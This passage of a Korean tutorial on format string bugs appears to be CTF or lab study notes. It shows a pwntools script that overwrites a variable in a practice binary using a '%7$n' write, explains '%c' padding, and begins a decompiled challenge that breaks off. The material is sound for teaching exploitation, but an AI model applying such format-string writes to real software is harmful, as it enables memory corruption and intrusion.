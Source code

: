 이런 코드가 있다고 하자. key값이 0이 아니면 Success가 출력된다. 오프셋을 구하면
![](https://i.imgur.com/AfFzvwl.png)
오프셋은 7이다. 페이로드는 이렇게 짤 수 있다.
```python
from pwn import *
p = process("./format_32")
e = ELF('./format_32')

key = e.symbols['key']

payload = b''
payload += p32(key)
payload += b'%7$n'

p.send(payload)
p.interactive()
```

우선 key의 주소값을 입력한다. 그러면 7번째 %p에 key값의 주소가 들어있다. 그러면 %7$n을 이용해 7만큼 떨어진 곳에 입력한다. 즉 key값의 주소에 입력을 한다. 어짜피 0이 아니면 되기에 key의 주소 길이만큼 key변수 안에 입력된다.
![](https://i.imgur.com/fG1s3Zr.png)

## %c

%n과 자주 같이 쓰이며 특정 길이만큼 출력해야 할때 쓰인다.
꼭 c가 아니여도 상관없다.
10만큼의 너비를 갖고 출력한다.
(9공백 + 1문자 = 10)


### 예제_제공파일

checksec
![](https://i.imgur.com/Mr4Zo7f.png)


c코드

```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s2[8]; // [rsp+0h] [rbp-E0h] BYREF
  __int64 v4; // [rsp+8h] [rbp-D8h]
  char v5[8]; // [rsp+10h] [rbp-D0h] BYREF
  __int64 v6; // [rsp+18h] [rbp-C8h]
  char naughtylist[8]; // [rsp+20h] [rbp-C0h] BYREF
  __int64 v8; // [rsp+28h] [rbp-B8h]
  char kindlist[132]; // [rsp+30h] [rbp-B0h] BYREF
  char wyv3rn[8]; // [rsp+B4h] [rbp-2Ch] BYREF
  int v11; // [rsp+BCh] [rbp-24h] BYREF
  FILE *stream; // [rsp+C0h] [rbp-20h]
  void *passwd; // [rsp+C8h] [rbp-18h]
  int v14; // [rsp+D4h] [rbp-Ch]
  int v15; // [rsp+D8h] [rbp-8h]
  int i; // [rsp+DCh] [rbp-4h]

  init();
  intro();
  i = 0;
  v14 = 0;
  v11 = 0;
  v15 = 0;
  *(_QWORD *)wyv3rn = 0x6E7233767977LL;
  memset(kindlist, 0, 0x80uLL);
  *(_QWORD *)naughtylist = 0LL;
```